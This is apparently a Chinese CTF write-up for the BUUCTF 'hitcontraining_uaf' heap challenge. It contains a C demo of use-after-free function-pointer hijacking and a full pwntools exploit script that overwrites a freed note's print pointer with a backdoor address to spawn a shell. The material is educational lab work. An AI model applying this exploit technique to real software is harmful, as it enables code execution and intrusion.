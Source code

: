 # [BUUCTF-Pwn]hitcontraining_uaf

以此题作为对Pwn中堆利用的学习的开始。堆题初见，肯定有许多地方理解不恰当，希望师傅们能多多指教。

## 0x00.简述

成因

```
应用程序调用free()释放内存时，如果内存块小于256kb，ptmalloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个：一是内存块不一定能马上释放回内核（比如内存块不是位于堆顶端），二是供应用程序下次申请内存使用（这是主要原因）。当ptmalloc中空闲内存量达到一定值时ptmalloc才将空闲内存释放回内核。如果应用程序申请的内存大于256kb，ptmalloc调用mmap()向内核申请一块内存，返回返还给应用程序使用。如果应用程序释放的内存大于256kb，ptmalloc马上调用munmap()释放内存。ptmalloc不会缓存大于256kb的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。
```

示例程序

```
#include <stdio.h>
#include <stdlib.h>
typedef void (*func_ptr)(char *);
void evil_fuc(char command[])
{
system(command);
}
void echo(char content[])
{
printf("%s",content);
}
int main()
{
    func_ptr *p1=(func_ptr*)malloc(4*sizeof(int));
    printf("malloc addr: %p\n",p1);
    p1[3]=echo;
    p1[3]("hello world\n");
    free(p1); //在这里free了p1,但并未将p1置空,导致后续可以再使用p1指针
    p1[3]("hello again\n"); //p1指针未被置空,虽然free了,但仍可使用.
    func_ptr *p2=(func_ptr*)malloc(4*sizeof(int));//malloc在free一块内存后,再次申请同样大小的指针会把刚刚释放的内存分配出来.
    printf("malloc addr: %p\n",p2);
    printf("malloc addr: %p\n",p1);//p2与p1指针指向的内存为同一地址
    p2[3]=evil_fuc; //在这里将p1指针里面保存的echo函数指针覆盖成为了evil_func指针.
    p1[3]("/bin/sh");
    return 0;
}
```

运行结果

![image-20210405011515386](https://i.loli.net/2021/04/05/FhCULk1ojsqrElM.png)

## 0x01.检查保护

![image-20210405004832680](https://i.loli.net/2021/04/05/nLGDV2BWOkbp4MA.png)

## 0x02.静态分析

![image-20210405004924203](https://i.loli.net/2021/04/05/tIx98Z4EoaumMlj.png)

经典菜单题，进入add_note函数查看，一次只能add一个结点，最多add5个

容易观察到notelist其实是一个结构体数组，大小为8个字节，其第一个成员为函数指针（4字节），指向print_note_content函数，其第二个成员也为一个指针（4字节），指向后续malloc指定大小的空间，因此在ida中的Structures窗口添加如下结构体定义

![image-20210405005450799](https://i.loli.net/2021/04/05/aRofvOPjrcDsbLV.png)

将notelist的类型声明改为如下所示

![image-20210405005618871](https://i.loli.net/2021/04/05/N6uSbaK3t1OUhZT.png)

优化效果：

![image-20210405005649970](https://i.loli.net/2021/04/05/VK6Y3fsrWIuivPa.png)

再看del_note函数，作用是删除指定下标的结点

![image-20210405011620907](https://i.loli.net/2021/04/05/KpBDCIAOJvgjQy1.png)

未将指针置空，存在uaf漏洞

print_note函数，打印指定下标的结构体中buf的内容

![image-20210405011959024](https://i.loli.net/2021/04/05/FK7T2ON9kVtIzcM.png)

在这个函数中会执行notelist结构体中第一个指针指向的函数，我们如果能把指针改为指向system("/bin/sh")函数，就能获得权限

后门：

![image-20210405175442208](https://i.loli.net/2021/04/05/JSjwTvHbFuzdWLZ.png)

## 0x03.动态调试

我们申请了两个结构体

![image-20210405172903922](https://i.loli.net/2021/04/05/ipykSwE2vOCW9mN.png)

堆中情况如下：

![image-20210405172800928](https://i.loli.net/2021/04/05/QXLfoibEMDW23zh.png)

释放：

![image-20210405173025365](https://i.loli.net/2021/04/05/s3GQluib1JMf9LD.png)

堆中：

![image-20210405173052094](https://i.loli.net/2021/04/05/5sXEqM9jKZkVa2O.png)

bins:

![image-20210405173116497](https://i.loli.net/2021/04/05/2oJmPrzjXgHqIlE.png)

## 0x04.思路

可以看到其实free过后只是更改了fd处的四个字节（插入到fastbin链表中），并没有”真正的释放“

本来，在buf(size为0x41的堆块)中fd对应的四个字节其实就是用户输入的内容的前四个字节，在指针型结构体(size为0x17的堆块)中fd对应的是print指针，即print_note_content函数的地址。现在，free过后，他们都被更改。

此时如果我们再申请一个结构体并在其内部给buf分配8字节的堆空间，就会用到fastbins中大小为0x10的两个堆

fastbin先进后出，所以原来的1号堆对应现在的指针型结构体，0号堆对应现在的buf，由于我们现在可以向buf中写东西，所以如果我们向buf中前四个字节处（也就是fd处）写入magic函数的地址，再次调用print函数尝试输出0号堆的内容时，它以为前四个字节(fd处的四个字节)是print_note_content函数的地址，而实际是magic函数的地址，所以执行的是magic函数，也就是system("/bin/sh")

简单说来，就是我们在最后print的是编号为0的堆块，它虽然已经被free掉了，但是指向它的指针没有置为null，指针仍然指向它，那么我们再通过该指针来调用它的时候，就会调用magic函数

## 0x05.exp

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./hacknote')

def addnote(size, content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.sendline(content)

def delnote(index):
    p.recvuntil("choice :")
    p.sendline("2")
    p.recvuntil(":")
    p.sendline(str(index))

def printnote(index):
    p.recvuntil("choice :")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(index))

#gdb.attach(p)
magic_addr = 0x08048945
addnote(0x30, 'aaaa')
addnote(0x30, 'bbbb')
delnote(0)
delnote(1)
addnote(8, p32(magic_addr))
printnote(0)
p.interactive()
```

